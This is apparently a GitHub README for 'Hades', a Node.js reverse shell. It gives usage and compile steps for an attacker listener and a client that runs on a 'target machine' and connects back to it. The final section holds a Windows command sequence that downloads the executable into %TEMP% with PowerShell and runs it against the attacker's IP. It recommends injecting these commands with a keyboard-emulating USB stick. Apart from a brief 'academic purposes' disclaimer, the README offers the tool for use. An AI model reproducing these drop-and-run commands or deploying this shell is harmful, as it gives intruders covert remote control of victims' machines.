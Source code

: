 # Hades
Simple reverse shell developed for education purposes.

This program is written in Typescript and is made to run with [Node.js](https://nodejs.org/). Some libraries are required, [see](#libs) the list of libraries used in this project.

![image info](demo.png)

## How to use
### Disclaimer
- This reverse shell is for academic purposes, the use of this software is your responsibility.
- This software is still in development, not all the features are implemented yet.

### Use with Node.js
1) Run `npm install`
2) Run `node src/main.js -a [port to listen on]` on the main machine.
3) Run `node src/main.js -c [admin's ip] [admin's port]` on a target machine.

### Use a compiled version (Recommended)
1) Garb a compiled version of the program.
2) Run `hades -a [port to listen on]` on the main machine.
3) Run `hades -c [admin's ip] [admin's port]` on a target machine.

## Compile using Nexe
To compile from source, you will need to follow the instructions listed below.

1) Run `npm install`
2) [Transpile](https://code.visualstudio.com/docs/typescript/typescript-compiling) all `.ts` files into `.js`.
3) Install [Nexe](https://github.com/nexe/nexe).
4) Run `nexe src/main.js -o bin/hades -t "linux-x64-14.15.3" -r "src/**.js"`.
5) Change `linux-x64` with the os you are using following by the [architecture](https://linuxconfig.org/what-is-my-architecture-is-my-cpu-64-bit-or-32-bit#:~:text=The%20best%20way%20to%20quickly,default%20on%20all%20Linux%20distros.) of your CPU.

Note that the program is already compiled in the `bin` directory, and LTS versions can be found in the Releases section.

## Libs
Here is the list of used libraries, you can download all of them using `npm install`.
- `Axios` - Used to send requests.
- `Body-parser` - Used to parse responses.
- `WSS` - Used for socket connections.
- `Express` - Used to setup servers.

## Install & Run from command line
This can be usefull for exemple if you want to use a USB stick which emulate a keyboard when you plug it into a machine.

### Window
Copy and paste the commands in a cmd on a target machine.

```bash
cd %TEMP%
powershell wget "https://github.com/AntoineBRTL/Hades/releases/download/1.0/hades.exe" -outfile "h.exe"
h.exe -c localhost
exit
```

Change `localhost` with the ip of the main machine.

### Linux 
Not done yet

### MacOS
Not done yet